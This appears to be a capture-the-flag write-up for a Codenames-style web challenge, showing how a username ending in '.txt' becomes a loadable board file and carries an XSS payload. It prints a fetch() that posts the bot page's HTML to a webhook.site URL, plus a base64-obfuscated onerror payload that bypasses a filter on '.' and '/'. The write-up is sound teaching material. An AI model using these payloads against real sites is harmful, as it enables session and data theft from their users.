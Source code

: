 ```python
username = f"BOT_{code}_" + os.urandom(4).hex()
password = os.environ.get('BOT_SECRET_PREFIX', "") + os.urandom(16).hex()
```

The thing we should focus on is the cell content. It is inserted using `innerHTML`, which comes from the board that we loaded from the file, like in codenames-1.

```js
function renderBoard() {
boardTable.innerHTML = '';
for (var i = 0; i < board.length; i++) {
  if (i % 5 === 0) {
    var row = boardTable.insertRow();
  }
  var word = board[i];
  var cell = row.insertCell();
  cell.innerHTML = word;
  cell.id = 'cell-' + i;
  cell.setAttribute('data-idx', i);
  cell.className = 'cell';
    
...
```

So what if we can control what is displayed? We can notice that every user created will have their information saved in the `profiles` folder.

![image](https://hackmd.io/_uploads/BJYMAsJigl.png)

And if we create a `.txt` username. Its information will be written to that file.

![image](https://hackmd.io/_uploads/H1FwAjJoee.png)

Log in as `hihi.txt` and create the game with language `/app/profiles/hihi` and we have

![image](https://hackmd.io/_uploads/Hyoj0jkile.png)

Ok. Now try with `<img src=x onerror=alert(1) >.txt`

![image](https://hackmd.io/_uploads/BJ4M12Jsgx.png)

Good! Now we have XSS now use this to fetch the document.body of bot page

```js
fetch('https://webhook.site/71d7a6db-1541-40cf-a397-b2fff5f03cfb',{method:'POST',body:document.body.innerHTML})
```

Before that, we use base64 form because the server blocks `.` and `/`

```html
<img src=x onerror=eval(atob('ZmV0Y2goJ2h0dHBzOi8vd2ViaG9vay5zaXRlLzcxZDdhNmRiLTE1NDEtNDBjZi1hMzk3LWIyZmZmNWYwM2NmYicse21ldGhvZDonUE9TVCcsYm9keTpkb2N1bWVudC5ib2R5LmlubmVySFRNTH0pCg')) >.txt
```
